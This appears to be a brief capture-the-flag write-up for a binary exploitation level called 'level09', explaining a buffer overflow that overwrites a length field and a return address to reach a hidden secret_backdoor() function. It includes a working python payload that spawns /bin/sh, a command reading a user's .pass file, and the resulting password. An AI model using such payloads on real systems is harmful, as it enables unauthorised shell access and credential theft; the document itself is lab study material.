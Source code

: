 This ones a combo of some prev levels.

we have an uncalled function secret_backdoor(), that calls fgets for stuff and the calls sytem presumably with the input

we need to use buff overflow to write this function's address just as we ve done before, the only difference really is 
the usage of strncpy which means we also need to fuck up the max len value during overflow (well just put the max value in corresponding address)

With pattern generator well find the required offset to write the address of secret_backdoor()
finally we'll add "bin/sh" as input for s_b()


(python -c 'print "A" * 40 + "\xff" + "\n" + "A" * 200 + "\x8c\x48\x55\x55\x55\x55\x00" + "\n" + "/bin/sh"'; cat) | ./level09

cat /home/users/end/.pass
j4AunAPDXaJxxWjYEUxpanmvSgRDV3tpA5BEaBuE
